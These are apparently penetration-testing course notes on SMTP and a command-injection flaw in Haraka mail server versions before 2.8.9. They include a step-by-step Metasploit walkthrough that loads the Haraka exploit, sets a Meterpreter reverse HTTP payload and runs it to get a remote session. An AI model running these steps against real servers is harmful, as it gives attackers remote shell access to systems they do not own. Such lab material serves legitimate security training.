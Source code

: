 * Simple Mail Transfer Protocol is a communicastion protocol used for the transmission of emails.
* Uses TCP port 25 by default. Can also be configured on 465 and 587.

## Haraka
* Open source high performance SMTP server developed in Node.js
* The Haraka SMTP server comes with a plugin for processing attachments.
* The Haraka versions prior to V2.8.9 are vulnerable to **command injection**.

* PRACTICAL
* Repeat the step till db_nmap
* `search type:exploit name:haraka`
* `use exploit/linux/smtp/haraka`
* `set srvport [any free port like 9898]`
*  `set payload linux/x64/meterpreter_reverse_http`
*  `set lhost eth1`
*  `run` --> Meterpreter session
